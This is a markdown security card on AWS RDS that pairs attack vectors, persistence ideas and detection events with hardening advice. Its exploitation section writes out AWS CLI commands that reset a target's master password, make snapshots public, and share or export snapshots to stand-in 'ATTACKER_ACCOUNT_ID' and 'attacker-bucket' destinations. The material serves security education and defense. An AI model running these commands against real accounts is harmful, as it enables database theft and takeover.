

#  AWS RDS Security



> **Category**: DATABASE

Relational Database Service (RDS) provides managed databases with encryption and access controls. Publicly accessible databases and weak credentials are primary attack vectors.

## Quick Stats

| Risk Level | Multi-AZ | PostgreSQL, etc | Encryption |
| --- | --- | --- | --- |
| **CRITICAL** | **Regional** | **MySQL** | **KMS** |

## Service Overview

### Database Access

RDS instances can be publicly accessible or VPC-only. Security groups control network access, while IAM authentication provides identity-based access for supported engines.

> Attack note: Public databases are constantly scanned. Weak credentials lead to immediate compromise.

### Snapshots & Backups

Automated backups and manual snapshots can be shared cross-account or made public. Snapshots contain full database contents including sensitive data.

> Attack note: Public snapshots are goldmines - search for forgotten production data.

## Security Risk Assessment

`█████████░` **9.0/10** (CRITICAL)

Databases contain the most sensitive business data. Public accessibility, weak credentials, and unencrypted snapshots lead to massive data breaches.

## ⚔️ Attack Vectors

### Access Exploitation

- Publicly accessible databases
- Weak or default credentials
- SQL injection from applications
- Unencrypted connections
- Cross-account snapshot sharing

### Credential Attacks

- Brute force master password
- Credential stuffing attacks
- Password in CloudFormation
- Secrets Manager misconfigured
- Connection strings in code

## ⚠️ Misconfigurations

### Access Issues

- PubliclyAccessible: true
- Security group allows 0.0.0.0/0
- No SSL/TLS enforcement
- IAM auth not enabled
- No VPC endpoint for private access

### Data Protection

- Encryption at rest disabled
- Snapshots not encrypted
- Deletion protection off
- No audit logging
- Performance Insights public

## 🔍 Enumeration

**List DB Instances**
```bash
aws rds describe-db-instances
```

**List Snapshots**
```bash
aws rds describe-db-snapshots
```

**Find Public Snapshots**
```bash
aws rds describe-db-snapshots --include-public
```

**List Cluster Snapshots**
```bash
aws rds describe-db-cluster-snapshots
```

**Get Parameter Groups**
```bash
aws rds describe-db-parameter-groups
```

## 📤 Data Exfiltration

### Snapshot Abuse

- Copy snapshot to attacker account
- Make snapshot public
- Export snapshot to S3
- Create read replica externally
- Restore in different region

### Direct Access

- SQL dump via mysqldump/pg_dump
- SELECT INTO OUTFILE
- Database link to external DB
- Replication to external host
- Bulk export via tools

> **Key insight:** Snapshot sharing is the stealthiest exfiltration method - no data actually leaves your account.

## 🔗 Persistence

### Database-Level

- Create backdoor database user
- Add stored procedure backdoor
- Schedule malicious job
- Modify application data
- Insert triggers for exfil

### AWS-Level

- Modify master password
- Create read replica
- Add security group rule
- Enable public access
- Share snapshot cross-account

## 🛡️ Detection

### CloudTrail Events

- ModifyDBInstance
- CreateDBSnapshot
- ModifyDBSnapshotAttribute
- RestoreDBInstanceFromDBSnapshot
- ModifyDBCluster

### Database Logs

- Audit log analysis
- Failed login attempts
- Unusual query patterns
- Bulk data access
- New user creation

## Exploitation Commands

**Restore Snapshot to New Instance**
```bash
aws rds restore-db-instance-from-db-snapshot \\
  --db-snapshot-identifier snap-xxx \\
  --db-instance-identifier pwned \\
  --publicly-accessible
```

**Reset Master Password**
```bash
aws rds modify-db-instance \\
  --db-instance-identifier target-db \\
  --master-user-password NewPassword123!
```

**Make Snapshot Public**
```bash
aws rds modify-db-snapshot-attribute \\
  --db-snapshot-identifier snap-xxx \\
  --attribute-name restore \\
  --values-to-add all
```

**Copy Snapshot Cross-Account**
```bash
aws rds modify-db-snapshot-attribute \\
  --db-snapshot-identifier snap-xxx \\
  --attribute-name restore \\
  --values-to-add ATTACKER_ACCOUNT_ID
```

**Enable Public Access**
```bash
aws rds modify-db-instance \\
  --db-instance-identifier target-db \\
  --publicly-accessible
```

**Export Snapshot to S3**
```bash
aws rds start-export-task \\
  --export-task-identifier exfil \\
  --source-arn arn:aws:rds:REGION:ACCOUNT:snapshot:snap-xxx \\
  --s3-bucket-name attacker-bucket
```

## Policy Examples

### ❌ Dangerous - Public Database

```json
{
  "PubliclyAccessible": true,
  "StorageEncrypted": false,
  "DeletionProtection": false,
  "MasterUsername": "admin",
  "MasterUserPassword": "password123"
}
```

*Public, unencrypted, weak credentials - complete exposure*

### ✅ Secure - Hardened Configuration

```json
{
  "PubliclyAccessible": false,
  "StorageEncrypted": true,
  "KmsKeyId": "arn:aws:kms:...",
  "DeletionProtection": true,
  "IAMDatabaseAuthentication": true,
  "EnableCloudwatchLogsExports": ["audit","error"]
}
```

*Private, encrypted, IAM auth, with audit logging*

### ❌ Dangerous - Open Security Group

```json
{
  "IpPermissions": [{
    "IpProtocol": "tcp",
    "FromPort": 3306,
    "ToPort": 3306,
    "IpRanges": [{"CidrIp": "0.0.0.0/0"}]
  }]
}
```

*MySQL port open to entire internet*

### ✅ Secure - VPC Only Access

```json
{
  "IpPermissions": [{
    "IpProtocol": "tcp",
    "FromPort": 3306,
    "ToPort": 3306,
    "UserIdGroupPairs": [{
      "GroupId": "sg-app-servers"
    }]
  }]
}
```

*Only app server security group can connect*

## Defense Recommendations

### 🔐 Disable Public Access

Never expose RDS to internet. Use private subnets.

```bash
aws rds modify-db-instance \\
  --db-instance-identifier db-xxx \\
  --no-publicly-accessible
```

### 🚫 Enable Encryption

Encrypt at rest with KMS and enforce SSL in transit.

```bash
--storage-encrypted --kms-key-id <key-arn>
```

### 🔒 Use IAM Authentication

Replace passwords with IAM roles where possible.

```bash
aws rds modify-db-instance \\
  --enable-iam-database-authentication
```

### 📝 Enable Audit Logging

Export audit logs to CloudWatch for monitoring.

```bash
--enable-cloudwatch-logs-exports \\
  '["audit","error","general"]'
```

### 🌐 Use Secrets Manager

Rotate credentials automatically with Secrets Manager.

```bash
aws secretsmanager rotate-secret \\
  --secret-id db-credentials
```

### 🔍 Enable Deletion Protection

Prevent accidental or malicious deletion.

```bash
aws rds modify-db-instance --deletion-protection
```

---

*AWS RDS Security Card*

*Always obtain proper authorization before testing*
